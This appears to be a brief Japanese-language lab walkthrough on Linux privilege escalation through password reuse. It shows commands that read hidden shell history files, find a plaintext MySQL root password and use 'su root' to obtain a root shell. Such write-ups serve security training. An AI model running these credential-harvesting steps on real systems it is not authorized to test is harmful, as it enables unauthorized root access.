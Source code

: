 # Password
パスワードの再利用は、特権を拡大する簡単な方法です。
ルートユーザーのアカウントパスワードはハッシュ化され、/etc/shadow に安全に保存されていますが、その他のパスワード、たとえばサービス用のパスワードなどは、平文で設定ファイルに保存されることがあります。   
rootユーザがサービス用のパスワードを再利用した場合、そのパスワードが見つかり、rootユーザへの切り替えに使用される可能性があります。   
# History Files
履歴ファイルには、ユーザーが特定のプログラムを使用する際に発行したコマンドが記録されています。   
ユーザーがコマンドの一部としてパスワードを入力した場合、このパスワードは履歴ファイルに保存されることがあります。   
発見したパスワードでrootユーザーに切り替えてみることをお勧めします。
# Privilege Escalation
1. ユーザーのホームディレクトリにある、ファイル名が "history "で終わる隠しファイルの中身を表示します。
```
$ cat ~/.*history | less
ls -al
cat .bash_history
ls -al
mysql -h somehost.local -uroot -ppassword123
```
パスワード「password123」を使って、MySQLサーバーにrootユーザーで接続したようです。   
4. suコマンドを使用して、履歴ファイルに記載されているパスワードを使用して、rootユーザーアカウントに切り替えます。
```
$ su root
Password:
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
